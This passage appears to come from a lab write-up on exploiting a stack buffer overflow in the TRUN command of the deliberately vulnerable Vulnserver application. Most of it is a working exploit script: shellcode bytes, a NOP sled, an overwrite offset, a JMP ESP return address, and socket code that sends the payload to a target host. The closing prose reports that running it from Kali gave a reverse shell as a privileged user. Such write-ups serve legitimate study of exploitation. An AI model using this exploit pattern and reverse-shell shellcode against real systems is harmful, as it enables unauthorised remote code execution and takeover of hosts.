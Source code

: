 ```c
buf += b"\xeb\x1d\xed\x07\xa5\xcb\x4b\xfe\x07\xa5\x05\xad\xc1"
buf += b"\x21\xd3\x9d\xd1\x37\xdc\xcb\xa7\xd7\x6d\xa2\xf1\xe8"
buf += b"\x42\x22\xf6\x91\xbe\xd2\xf9\x48\x7b\xe2\xb3\xd0\x2a"
buf += b"\x6b\x1a\x81\x6e\xf6\x9d\x7c\xac\x0f\x1e\x74\x4d\xf4"
buf += b"\x3e\xfd\x48\xb0\xf8\xee\x20\xa9\x6c\x10\x96\xca\xa4"

# NOP sled 
nops=b"\x90"*40

# to overwrite buffer and EBP
payload=b"A"*2003

# to redirect the control to ESP -> JMP ESP
payload+=b"\xaf\x11\x50\x62"

# performing NOP sled after reach shellcode
payload+=nops

# shellcode gets executed
payload+=buf

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.141", 9999))
s.send((b"TRUN /.:/"+payload))
s.close()
sys.exit()
```

Since we are running this application as a high privileged user, by running this exploit we should gain shell as the same user

Lets try running our exploit when the application is running as privileged user without debugger,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver]
└─$ python3 exploit.py
```

Yay!! We have successfully gained reverse shell for our privileged user who is running that application from our target machine

<div align="center">